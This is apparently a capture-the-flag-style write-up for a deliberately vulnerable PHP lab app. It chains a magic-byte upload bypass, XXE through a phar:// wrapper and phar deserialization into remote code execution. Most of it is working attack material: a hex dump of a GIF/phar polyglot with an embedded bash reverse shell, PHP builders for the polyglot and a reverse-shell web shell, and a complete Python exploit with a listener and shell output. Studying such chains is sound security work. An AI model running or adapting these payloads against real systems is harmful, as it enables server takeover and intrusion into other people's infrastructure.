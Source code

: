 ## Goal: 
- To get an RCE

## Analysis:
### Info: 
- Language: php 
- Env: php7.4 docker container with apache webserver
- dir structure at web root: 
```shell
$ tree .
.
├── chicken.php
├── index.php
├── styles.css
├── upload.php
├── uploads
│   └── something.gif
└── view.php

1 directory, 6 files
```

### Hint: 
As seen above there is a `something.gif` inside the upload folder which I put in as a hint. i.e: 
```shell
$ xxd uploads/something.gif
00000000: 4749 4638 3961 3b3c 3f70 6870 205f 5f48  GIF89a;<?php __H
00000010: 414c 545f 434f 4d50 494c 4552 2829 3b20  ALT_COMPILER();
00000020: 3f3e 0d0a bd00 0000 0100 0000 1100 0000  ?>..............
00000030: 0100 0000 0000 8700 0000 4f3a 373a 2263  ..........O:7:"c
00000040: 6869 636b 656e 223a 323a 7b73 3a37 3a22  hicken":2:{s:7:"
00000050: 636f 6e74 656e 7422 3b73 3a37 323a 223c  content";s:72:"<
00000060: 3f70 6870 0a65 7865 6328 222f 6269 6e2f  ?php.exec("/bin/
00000070: 6261 7368 202d 6320 2762 6173 6820 2d69  bash -c 'bash -i
00000080: 203e 2620 2f64 6576 2f74 6370 2f31 3732   >& /dev/tcp/172
00000090: 2e31 372e 302e 312f 3331 3333 3720 303e  .17.0.1/31337 0>
000000a0: 2631 2722 5c29 3b22 3b73 3a34 3a22 6e61  &1'"\);";s:4:"na
000000b0: 6d65 223b 733a 353a 2264 2e70 6870 223b  me";s:5:"d.php";
000000c0: 7d08 0000 0052 6963 6b2e 7478 7417 0000  }....Rick.txt...
000000d0: 009e 0941 6017 0000 00b7 433c 0ea4 0100  ...A`.....C<....
000000e0: 0000 0000 004e 6576 6572 2067 6f6e 6e61  .....Never gonna
000000f0: 2067 6976 6520 796f 7520 7570 da58 acc4   give you up.X..
00000100: 6866 754a 0529 e397 506d 27f0 a509 9651  hfuJ.)..Pm'....Q
00000110: 0200 0000 4742 4d42                      ....GBMB
```

### Vulnerability I: bagic mytes
$WEB_ROOT/upload.php
```php
  8 // Check if image file is a actual image or fake image
  9 if(isset($_POST["submit"])) {
 10   $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]); 
 11   if($check !== false) {
 12     echo "File is an image - " . $check["mime"] . ".";
 13     $uploadOk = 1;
 14   } else {
 15     echo "File is not an image.";
 16     $uploadOk = 0;
 17   }
 18 }
 ```
 The check on the line 10 can be fooled with magic bytes. for example a php file with `GIF89a` magic bytes can bypass that check 
 
 ### Vulnerablity II: 
 $WEB_ROOT/view.php
 ```php
 15 if (isset($_GET['xmldoc'])){
 16         $content = urldecode($_GET['xmldoc']);
 17         if (preg_match('/(php|zlib|file|http|data|glob|expect):\/\//', $content)){ // [1]
 18                 echo "Naughty boy";
 19                 header("Location: ");
 20                 die();
 21                 }
 22                 else
 23                 {
 24                         $doc = simplexml_load_string($content, NULL,
 25                                 LIBXML_NOENT); // [2]
 26                         echo "If there are no errors on this then XML is parsed";
 27                 }
 28         }
 29 else {
 30                 echo "cant exploit without userinput lol, and its 'xmldoc' parameter ;) have fun";
 31 }
 32 ?>
 ```
 
 As implemented in [1] Regex isnt the best solution in this case and can easily be bypassed by a malicious actor also `phar` stream wrapper isnt blacklisted either. [2] introduces XXE as LIBXML_NOENT actually resolves the entity than disabliing(developer confusion is real even in present days). we leverage the XXE to invoke the phar polyglot we upload using `ulnerability I`
 
 ### Vulnerability II and a feature(bug? :P)
 $WEB_ROOT/chicken.php:
 ```php
  1 <?php
  2
  3 class Chicken{
  4     public function __destruct(){
  5         echo "things happened";
  6         file_put_contents($this->name, $this->content, FILE_APPEND);
  7     }
  8 }
  9
 10 ?>
 ```
Sweet line 6 just lets us write files ;p 
lets make a phar out of this: 
```php
<?php

class chicken{
        public function __construct(){
                //vars
                $this->content = "<?php phpinfo() ?>";
                $this->name = "d.php";
        }
}

//create a new phar archieve
$phar = new \Phar("poc.phar");
$phar->startBuffering();
$phar->setStub("GIF89a;<?php __HALT_COMPILER(); ?>");

//serialize
$payload = new chicken();
$phar-> setMetadata($payload);

//zip archieve inside phar file :kekw:
$phar->addFromString("Rick.txt", "Never gonna give you up");
$phar->stopBuffering();
?>
```
This bypasses the filetype check and when we invoke the phar archieve via the XXE on `Vulberability II` `d.php` is written to the webroot and then we can access it to see `phpinfo()` output proving code execution. 

so if we were to generate a phar file with: 
```php
<?php

class chicken{
        public function __construct(){
                //vars
                $this->content = '<?php $ip=$_GET[\'ip\'];$p=$_GET[\'p\'];$string="/bin/bash -c \'sh -i >& /dev/tcp/".$ip."/".$p." 0>&1\'";exec($string); ?>';
                $this->name = "nail.php";
        }
}

//create a new phar archieve
$phar = new \Phar("poc.phar");
$phar->startBuffering();
$phar->setStub("GIF89a;<?php __HALT_COMPILER(); ?>");

//serialize
$payload = new chicken();
$phar-> setMetadata($payload);

//zip archieve inside phar file :kekw:
$phar->addFromString("Rick.txt", "Never gonna give you up");
$phar->stopBuffering();
?>
```

and then use an exploit like: 
```python
import requests, sys, socket, telnetlib
from threading import Thread

def upload():
    files = {'fileToUpload' : open(f'{sys.argv[1]}', 'rb')}
    r = requests.post('http://localhost:9001/upload.php', files=files)
    if "successfully" in r.text:
        print("[-] Phar has been planted")

def exp():
    payload = f'''<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM "phar://./uploads/{sys.argv[1]}">]><lol>&test;</lol>'''
    r = requests.get("http://localhost:9001/view.php",{'xmldoc' : payload})
    if "things happened" in r.text:
        print("[-] Phar deserialized via XXE")

def handler(port):
    print(f"[-] Starting handler on {port}")
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',port))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[-] Connection from {addr[0]}")
    t.sock = conn
    print("[-] Shell'd")
    t.interact()

def invoke(attacker,port):
    requests.get("http://localhost:9001/nail.php",{'ip' : attacker, 'p' : port})

def main():
    if len(sys.argv) != 3:
        print(f"{sys.argv[0]} <phar polyglot> <attackerip:port>")
        sys.exit(-1)
    attacker = sys.argv[2].split(':')[0]
    port = sys.argv[2].split(':')[1]
    thr = Thread(target=handler,args=(int(port),))
    thr.start()
    upload()
    exp()
    invoke(attacker,port)

if __name__ == "__main__":
    main()

```

we get: 
```shell
$ python3 exploit.py pocsh.gif 127.0.0.1:31337
[-] Starting handler on 31337
[-] Phar deserialized via XXE
[-] Connection from 127.0.0.1
[-] Shell'd
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$
```


## References: 
- https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf
- https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf